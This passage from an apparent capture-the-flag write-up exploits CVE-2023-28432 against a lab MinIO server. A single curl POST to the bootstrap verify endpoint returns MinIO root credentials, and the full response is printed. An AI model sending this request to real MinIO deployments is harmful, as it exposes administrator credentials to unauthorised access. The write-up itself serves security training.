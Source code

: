 ![image](https://github.com/user-attachments/assets/6618aaf3-e5d1-4e14-b27a-81b121c9554a)

Googling for `CVE-2023-28432` returns [this POC](https://github.com/acheiii/CVE-2023-28432)

The exploit seems simple enough: perform a `POST` request to the Minio Endpoint at path `/minio/bootstrap/v1/verify`

Recall that the Minio Endpoint was discovered at the metrics page to be: `http://prd23-s3-backend.skyfall.htb/minio/v2/metrics/cluster`

```console
root@kali:~# sed -i '0,/localhost/a 10.10.11.254    prd23-s3-backend.skyfall.htb' /etc/hosts

root@kali:~# curl -v -X POST http://prd23-s3-backend.skyfall.htb/minio/bootstrap/v1/verify
* Host prd23-s3-backend.skyfall.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.11.254
*   Trying 10.10.11.254:80...
* Connected to prd23-s3-backend.skyfall.htb (10.10.11.254) port 80
> POST /minio/bootstrap/v1/verify HTTP/1.1
> Host: prd23-s3-backend.skyfall.htb
> User-Agent: curl/8.7.1
> Accept: */*
>
* Request completely sent off
< HTTP/1.1 200 OK
< Server: nginx/1.18.0 (Ubuntu)
< Date: Thu, 18 Jul 2024 06:25:40 GMT
< Content-Type: text/plain; charset=utf-8
< Content-Length: 1444
< Connection: keep-alive
< Content-Security-Policy: block-all-mixed-content
< Strict-Transport-Security: max-age=31536000; includeSubDomains
< Vary: Origin
< X-Amz-Id-2: e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855
< X-Amz-Request-Id: 17E33A9FAFD20213
< X-Content-Type-Options: nosniff
< X-Xss-Protection: 1; mode=block
<
{"MinioEndpoints":[{"Legacy":false,"SetCount":1,"DrivesPerSet":4,"Endpoints":[{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node1:9000","Path":"/data1","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":false},{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node2:9000","Path":"/data1","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":true},{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node1:9000","Path":"/data2","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":false},{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node2:9000","Path":"/data2","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":true}],"CmdLine":"http://minio-node{1...2}/data{1...2}","Platform":"OS: linux | Arch: amd64"}],"MinioEnv":{"MINIO_ACCESS_KEY_FILE":"access_key","MINIO_BROWSER":"off","MINIO_CONFIG_ENV_FILE":"config.env","MINIO_KMS_SECRET_KEY_FILE":"kms_master_key","MINIO_PROMETHEUS_AUTH_TYPE":"public","MINIO_ROOT_PASSWORD":"GkpjkmiVmpFuL2d3oRx0","MINIO_ROOT_PASSWORD_FILE":"secret_key","MINIO_ROOT_USER":"5GrE1B2YGGyZzNHZaIww","MINIO_ROOT_USER_FILE":"access_key","MINIO_SECRET_KEY_FILE":"secret_key","MINIO_UPDATE":"off","MINIO_UPDATE_MINISIGN_PUBKEY":"RWTx5Zr1tiHQLwG9keckT0c45M3AGeHD6IvimQHpyRywVWGbP1aVSGav"}}
* Connection #0 to host prd23-s3-backend.skyfall.htb left intact
```

